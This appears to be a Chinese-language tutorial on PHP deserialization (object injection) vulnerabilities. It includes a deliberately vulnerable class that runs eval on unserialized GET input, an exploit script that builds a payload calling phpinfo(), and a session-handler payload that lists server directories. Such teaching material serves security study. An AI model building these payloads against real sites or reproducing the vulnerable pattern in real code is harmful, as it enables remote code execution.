







# php反序列化漏洞原理

#### 什么是反序列化：

PHP 的所谓的序列化也是一个将各种类型的数据，压缩并按照一定格式存储的过程，使用的函数是serialize()



**php反序列化漏洞又称对象注入，可能会导致远程代码执行(RCE)**

可以理解漏洞为执行unserialize函数，调用某一类并执行魔术方法(magic method)，之后可以执行类中函数，产生安全问题。

#### 漏洞前提

1.unserialize()函数的变量可控

2.php文件中存在可利用的类，类中有魔术方法

#### 例：

```php
<?php
class DEMO1
{
  public $func = 'safe';
  public $arg = 'abcd';
  public function safe()
  {
    echo $this->arg;
  }
  public function evil()
  {
    eval($this->arg);
  }
  public function run()
  {
    $this->{$this->func}();
  }
}
$obj = unserialize($_GET['a']);
$obj->run();
```

exp：

```php
<?php
class DEMO1
{
  public $func = 'evil';
  public $arg = 'phpinfo();';
}
echo = serialize(new DEMO1);

```

#### 魔术方法：

PHP类中有一种特殊函数体的存在叫魔术方法，它的命名是以两个下划线符号\_\_开头的，这些函数在某些情况下会自动调用而在反序列化时，如果反序列化对象中存在魔法函数，使用unserialize()函数同时也会触发。这样，一旦我们能够控制unserialize()入口，那么就可能引发对象注入漏洞。



步骤：

1.  寻找 unserialize() 函数的参数是否有我们的可控点
2.  寻找我们的反序列化的目标，重点寻找存在\_\_wakeup() 或 destruct() 魔法函数的类
3.  一层一层地研究该类在魔法方法中使用的属性和属性调用的方法，看看是否有可控的属性能实现在当前调用的过程中触发的
4.  找到我们要控制的属性了以后我们就将要用到的代码部分复制下来，然后构造序列化，发起攻击

#### session反序列化：

除了默认的session序列化引擎php外，还有几种引擎，不同引擎存储方式不同

```php
- php_binary 键名的长度对应的ASCII字符＋键名＋经过serialize() 函数序列化处理的值
- php 键名＋竖线＋经过serialize()函数序列处理的值
- php_serialize serialize()函数序列处理数组方式
```

三种处理器的存储格式差异，就会造成在session序列化和反序列化处理器设置不当时的安全隐患。



**例：**





```php
<?php
class OowoO
{
public $mdzz='print_r(scandir(dirname(__FILE__)));';
}
$obj = new OowoO();
echo serialize($obj);
```

得到：

```php
O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}
为了防止转义，改为：
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
最前面的管道符是session的格式
```




